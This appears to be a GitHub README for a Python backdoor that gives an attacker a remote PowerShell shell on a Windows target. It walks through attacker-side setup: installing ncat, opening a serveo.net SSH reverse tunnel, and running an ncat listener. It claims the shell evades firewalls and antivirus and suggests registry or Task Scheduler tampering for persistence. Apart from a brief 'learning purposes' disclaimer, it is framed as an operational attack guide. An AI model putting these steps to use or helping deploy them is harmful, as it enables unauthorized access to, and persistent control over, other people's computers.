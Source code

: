 # Python Backdoor for Windows On Public Networks

This project is a Python-based Windows backdoor that, once executed on the target PC, establishes a connection to a remote server hosted on SERVEO at a specified TCP port. The server then forwards the connection to the attacker's system, successfully bridging communication between the attacker's machine and the target system. This connection grants unauthorized access to the target machine and provides a PowerShell command interface. Through this interface, the attacker can remotely execute PowerShell commands on the compromised system.
***The best part for this is that this will work even if the firewall and antivirus are running, because all the communications are happening through an ssh tunnel.***

- To get this to working a Tool must be installed on YOUR PC (attacker PC)

## Netcat installation
  
  To be able to receive and interpret incoming backdoor as a PowerShell command line we should use 'Netcat'. Netcat, also known as Ncat, is a powerful networking tool used for reading and writing to network connections using TCP or UDP protocols.
  ### For Linux:
  ```shell
 sudo apt install ncat
  ```
  - This one commad is enough to set up ncat on linux
### For windows:

  For WINDOWS Netcat comes With a networking tool called 'Nmap':
  - Go to Nmap official site https://nmap.org/download.html#windows
  - Download nmap installer and run it.
  - ***CHECK Ncat at this window***
 ![nmap_setup](https://github.com/user-attachments/assets/1916f804-be3e-4a5e-a362-b9f4b95439ce)
  - Continue the installation with default settings after this.
 
 ## SSH Server setup (serveo)
  As mentioned already In order to receive connections from a public network we must have a public server capable of doing these things, for that 'serveo' is the best option. (it's an open source project )
  - you can visit 'https://serveo.net' for more knowledge
  
  ```powershell
  ssh -R 61732:localhost:5555 serveo.net
  ```
 ![ssh](https://github.com/user-attachments/assets/5308fea9-6efd-4d16-81d9-fc1b6b8d749f)
  - This command will connect port 5555 on our local machine to port 61732 on the public server 'serveo' , any TCP port between range (49152–65535) will work, change the port no if not available.
  - ***Make sure the port number here (in this case 61732) is same as the port number on python code***

 ### REMINDER: you should keep a dedicated terminal open running this ssh command in order for this to work
 ## Ncat usage
 After Successfull installation you should see like this when you run the command 'ncat' :
 ![ncat_test](https://github.com/user-attachments/assets/d752e99b-ec2e-4722-b81d-2bce64bfe825)


 ```powershell
 ncat -lnvp 5555 #the same local port that you specified in ssh command
 ```
   Execute the command to start listening for connections :
  ![conn_try](https://github.com/user-attachments/assets/1b144bb1-fdf1-4fa2-ac68-e4cb376c30ce)


 While the python command is running on the target device connection will be established now you can start exceuting commands:
 ![final](https://github.com/user-attachments/assets/ba7bc1af-675e-4697-a9a5-be3f7be5749f)

- ***If the connection is stuck or not responding just close the current terminal open new one and run the same command the python code try try to reconnect every 120sec of inactivity (the time delay can be modified from the code)***
- ***Remember do not leave the terminal inactive, the connection will be lost since the python code try to reconnect***

 For Learning purposes only.
 

 You can configure the system to automatically startup the program on reboot.
 ON windows systems you can do this by using Task Scheduler or by tampering with registry.
 
 
 Try your best not to do anything ilegal :)

